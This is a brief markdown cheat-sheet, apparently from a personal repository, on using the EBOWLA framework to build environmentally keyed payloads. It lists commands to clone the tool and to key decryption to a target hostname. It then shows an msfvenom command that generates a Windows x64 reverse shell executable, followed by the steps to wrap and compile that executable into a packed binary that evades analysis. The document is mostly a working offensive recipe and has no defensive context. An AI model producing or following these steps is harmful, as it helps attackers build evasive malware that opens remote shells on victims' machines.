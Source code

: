 # EBOWLA
## framework for building environmental keyed payloads

### Get EBOWLA

```git clone https://github.com/Genetic-Malware/Ebowla```

```cd Ebowla```

### edit generic.config:

change:

output_type = GO

payload_type = EXE

Set at least one environment variable (computername = hostname),
the name has to be exact, as Ebowla won't decrypt otherwise.

### make payload

Make, as an example, a reverse shell payload with metersploit: 

```msfvenom -p windows/x64/shell_reverse_tcp LHOST= LPORT= -f exe -a x64 -o shell.exe```

### build executable with Ebowla

![](https://raw.githubusercontent.com/ohoph/cheatsheats/master/ebowla/images/2019-12-13_09-42.png?token=ANDZTD52FKYQIOMKV3RBKUC56NLDI)

```python2 ebowla.py shell.exe genetic.config```

```./build_x64_go.sh output/<outputfilefromfirststeps> <finalfilename>```

The finished, packed executable can be found in the **output** folder.
